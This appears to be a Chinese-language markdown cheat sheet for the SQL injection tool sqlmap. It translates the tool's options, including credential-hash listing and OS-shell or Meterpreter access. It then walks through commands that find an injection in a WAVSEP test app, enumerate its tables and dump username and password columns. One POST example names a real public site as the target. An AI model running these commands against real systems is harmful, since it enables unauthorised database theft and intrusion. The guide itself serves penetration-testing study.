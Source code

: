 # SQLMap

[]: # Language: markdown  
[]: # Path: sqlmap.md

```shell
目标:至少要选中一个参数
  -u URL, --url=URL   目标为 URL (例如. "http://www.site.com/vuln.php?id=1")
  -g GOOGLEDORK       将谷歌dork的结果作为目标url
请求:
  这些选项可用于指定如何连接到目标URL
  --data=DATA         数据字符串通过POST发送
  --cookie=COOKIE     HTTP Cookie的值
  --random-agent      随机选择 HTTP User-Agent 头的值
  --proxy=PROXY       使用代理去连接目标URL
  --tor               使用匿名网络
  --check-tor         检查Tor是否正确使用
注入:
  这些选项可用于指定要测试哪些参数，提供自定义注入负载和可选篡改脚本
  -p TESTPARAMETER    可测试的参数
  --dbms=DBMS         将后端DBMS强制到此值
检测:
  这些选项可用于定制检测阶段
  --level=LEVEL       执行的测试级别(1-5, 默认 1)
  --risk=RISK         执行测试的风险 (1-3, 默认 1)
技术:
  这些选项可用于调整特定SQL注入的测试的技术
  --technique=TECH    SQL注入技术选择 (默认 "BEUSTQ")
枚举:
  T这些选项可用于枚举后端数据库管理系统的信息、结构和数据表。此外，还可以运行自己的SQL语句
  -a, --all           检索全部
  -b, --banner        检索 banner
  --current-user      检索当前用户
  --current-db        检索当前数据库
  --passwords         列出用户密码的hash值
  --tables            列出表
  --columns           列出字段
  --schema            列出DBMS schema
  --dump              Dump DBMS数据库表的条目
  --dump-all          Dump 所有DBMS数据库表的条目
  -D DB               指定数据库
  -T TBL              指定表
  -C COL              指定字段
操作系统访问:
  这些选项可用于访问后端数据库管理系统底层操作系统
  --os-shell          提示为交互式操作系统shell
  --os-pwn            提示为OOB外壳，Meterpreter或VNC
通用:
  这些选项可用于设置一些通用的工作参数
  --batch             永远不要要求用户输入，使用默认行为
  --flush-session     刷新当前目标的会话文件
杂项:
  --sqlmap -shell      提示输入交互式sqlmap shell
  --wizard            初学者的简单向导界面
```

### 使用 sqlmap

#### 1.对 url 进行检测，判断是否存在 SQL 注入

```shell
python sqlmap.py -u "url" --batch
```

跑完以后发现存在注入，，参数是 username 注入类型为盲注，数据库是 mysql,后端语言是 jsp

#### 2.获取数据库

```shell
python sqlmap.py -u URL --dbs --batch 获取全部数据库
python sqlmap.py -u URL --current-db --batch 获取当前数据库
```

**获取到了当前的数据库为 wavsepDB**

#### 3.获取当前数据库里所有表

```shell
python sqlmap.py -u URL -D wavsepDB --tables --batch
```

#### 4.获取表的字段

```shell
python sqlmap.py -u URL -D wavsepDB -T users --columns --batch
```

如图获取到上面字段以后，我们就开始 dump 字段内容了。

#### 5.dump 字段内容

```shell
python sqlmap.py -u URL -D wavsepDB -T users -C "password,username" --dump --batch
```

如果字段内容多的话可以再加上如 --start 1 --stop 100 这样就取 1-100 条数据

--dump 可以换成 --dump-all 则导出全部的内容

#### Post 类型

```shell
-u "http://www.baidu.com/login.php" --data "username=admin&password=admin" --batch
```
